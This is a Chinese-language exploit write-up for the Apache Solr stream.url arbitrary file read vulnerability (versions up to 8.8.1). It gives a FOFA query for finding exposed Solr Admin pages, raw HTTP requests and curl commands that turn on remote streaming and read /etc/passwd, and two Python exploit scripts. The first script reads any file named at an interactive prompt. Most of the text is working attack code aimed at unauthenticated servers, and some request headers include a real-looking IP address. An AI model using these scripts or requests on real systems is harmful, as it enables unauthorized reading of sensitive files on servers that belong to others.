




# Apache Solr stream.url 任意文件读取漏洞

## 漏洞描述

Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件。

参考链接：

- Apache Solr 组件安全概览 https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ 
- https://mp.weixin.qq.com/s/HMtAz6_unM1PrjfAzfwCUQ

## 漏洞影响

```
Apache Solr <= 8.8.1
```

## FOFA

```
title="Solr Admin"
```

## 漏洞复现

访问 Solr Admin 管理员页面



获取core的信息

```plain
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json
```


发送请求



请求包如下

```plain
POST /solr/ckan/config HTTP/1.1
Host: xxx.xxx.xxx:8983
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://118.31.46.134:8983
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true},"olrkzv64tv":"="}
```

再进行文件读取



请求包如下

```plain
POST /solr/ckan/debug/dump?param=ContentStreams HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Origin: http://118.31.46.134:8983
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://118.31.46.134:8983/solr/ckan/config
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close

stream.url=file:///etc/passwd
```


Curl请求为

```sh
curl -d '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://xxx.xxx.xxx.xxx:8983/solr/{corename}/config -H 'Content-type:application/json'

curl "http://xxx.xxx.xxx.xxx:8983/solr/db/debug/dump?param=ContentStreams" -F "stream.url=file://etc/passwd"
```

## 漏洞POC

poc1：

- POC还是建立在未授权访问的情况下

```python
import requests
import sys
import random
import re
import base64
import time
from lxml import etree
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def POC_1(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    try:
        response = requests.request("GET", url=core_url, timeout=10)
        core_name = list(json.loads(response.text)["status"])[0]
        print("\033[32m[o] 成功获得core_name,Url为：" + target_url + "/solr/" + core_name + "/config\033[0m")
        return core_name
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
        sys.exit(0)

def POC_2(target_url, core_name):
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
        "Content-type":"application/json"
    }
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在准备文件读取...... \033[0m".format(target_url))
        if "This" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {} 可能存在漏洞 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞\033[0m".format(target_url))
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_3(target_url, core_name, File_name):
    vuln_url = target_url + "/solr/{}/debug/dump?param=ContentStreams".format(core_name)
    headers = {
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'stream.url=file://{}'.format(File_name)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=5)
        if "No such file or directory" in response.text:    
            print("\033[31m[x] 读取{}失败 \033[0m".format(File_name))
        else:
            print("\033[36m[o] 响应为:\n{} \033[0m".format(json.loads(response.text)["streams"][0]["stream"]))


    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    core_name = POC_1(target_url)
    POC_2(target_url, core_name)
    while True:
        File_name = str(input("\033[35mFile >>> \033[0m"))
        POC_3(target_url, core_name, File_name)
```



poc2：

```python
#!/usr/bin/python
# coding: UTF-8
import requests

host="http://192.168.1.79:8081/"
if host[-1]=='/':
    host=host[:-1]
def get_core(host):
    url=host+'/solr/admin/cores?indexInfo=false&wt=json'
    core_data=requests.get(url,timeout=3).json()
    if core_data['status']:
        core=core_data['status'].keys()[0]
        jsonp_data={"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":'true'}}
        requests.post(url=host+"/solr/%s/config"%core,json=jsonp_data)

        result_data=requests.post(url=host+'/solr/%s/debug/dump?param=ContentStreams'%core,data={"stream.url":"file:///etc/passwd"}).json()
        if result_data['streams']:
            print result_data['streams'][0]['stream']
    else:
        exit("不存在此漏洞")
get_core(host)
```